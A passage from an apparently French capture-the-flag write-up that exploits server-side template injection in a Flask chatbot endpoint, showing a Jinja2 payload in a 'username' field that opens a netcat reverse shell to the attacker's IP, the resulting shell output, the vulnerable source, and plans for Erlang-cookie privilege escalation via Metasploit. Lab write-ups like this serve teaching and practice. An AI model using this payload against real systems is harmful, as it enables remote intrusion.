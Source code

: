 ```
	"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.97.127 4444 >/tmp/f').read() }}"
}
```
Et nous voila avec un shell sur le serveur:
```     
listening on [any] 4444 ...
connect to [10.14.97.127] from (UNKNOWN) [10.10.119.93] 46130
bash: cannot set terminal process group (605): Inappropriate ioctl for device
bash: no job control in this shell
azrael@forge:~/chatbotServer$
```
On vois un script python.py :
```python
from flask import Flask, request, jsonify, render_template_string

app = Flask(__name__)

@app.route('/', methods=['POST'])
def index():
    data = request.get_json()
    if not data or 'username' not in data:
        return jsonify({"error": "username parameter is required"}), 400
    
    username = data['username']
    template = '''<!DOCTYPE html>
<html lang="en">
 <head>
   <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Greeting</title>
 </head>
 <body>
   <h1>Sorry, {}, our chatbot server is currently under development.</h1>
 </body>
</html>'''.format(username)
    
    return render_template_string(template)

if __name__ == '__main__':
    app.run(debug=True, port=8000)
```
La SSTI ce trouve ici :
```
</html>'''.format(username)
```
La variable python **username** est inséré dans le template HTML, nous pouvons donc injecter du code dans la variable qui sera executer. 

# Privesc to Root :)
J'ai un peu tout check, puis je me suis rappeler du résultat de nmap
```
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown
```
Il y a un module dans metasploit pour avoir une RCE avec Erlang.
```
exploit/multi/misc/erlang_cookie_rce
```
Il faut le cookie pour l'exploiter, on va essayer de retrouver cela. 